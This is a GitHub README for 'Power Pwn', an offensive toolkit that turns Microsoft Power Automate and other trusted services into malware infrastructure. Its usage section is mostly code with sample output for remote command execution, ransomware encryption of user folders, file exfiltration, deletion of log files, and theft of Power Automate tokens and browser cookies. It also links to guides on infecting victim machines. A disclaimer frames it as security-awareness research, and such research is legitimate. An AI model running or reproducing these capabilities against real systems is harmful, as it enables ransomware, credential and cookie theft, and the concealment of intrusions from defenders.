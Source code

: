 # Power Pwn

[![stars](https://img.shields.io/github/stars/mbrg?icon=github&style=social)](https://github.com/mbrg)
[![twitter](https://img.shields.io/twitter/follow/mbrg0?icon=twitter&style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=mbrg0)
[![email me](https://img.shields.io/badge/michael.bargury-owasp.org-red?logo=Gmail)](mailto:michael.bargury@owasp.org)

Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

Disclaimer: these materials are presented from an attacker’s perspective with the goal of raising awareness to the risks of underestimating the security impact of No Code/Low Code. No Code/Low Code is awesome.

## Usage

```python
from powerpwn.cli import PowerPwn
POST_URL = ""
pp=PowerPwn(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").CodeExec
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").CodeExec
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").CodeExec

# commandline
pp.exec_cmd("echo \"hello word\"").CodeExec
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").Ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").Exfil
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").Exfil
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().Cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().StealPowerAutomateToken
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").StealCookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

## How To

[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)

[How to infect a victim machine](docs/infect_machine.md)

[How to troubleshoot execution errors](docs/infect_machine.md)
